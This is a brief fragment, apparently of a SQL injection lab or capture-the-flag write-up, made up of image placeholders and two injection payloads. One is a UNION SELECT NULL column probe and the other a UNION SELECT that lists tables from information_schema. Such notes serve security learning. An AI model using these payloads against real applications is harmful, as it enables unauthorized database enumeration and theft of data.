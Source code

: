' UNION SELECT NULL, NULL—
 ![alt text](image-41.png)
' UNION SELECT TABLE_TYPE, TABLE_NAME from information_schema.tables –
 ![alt text](image-42.png)
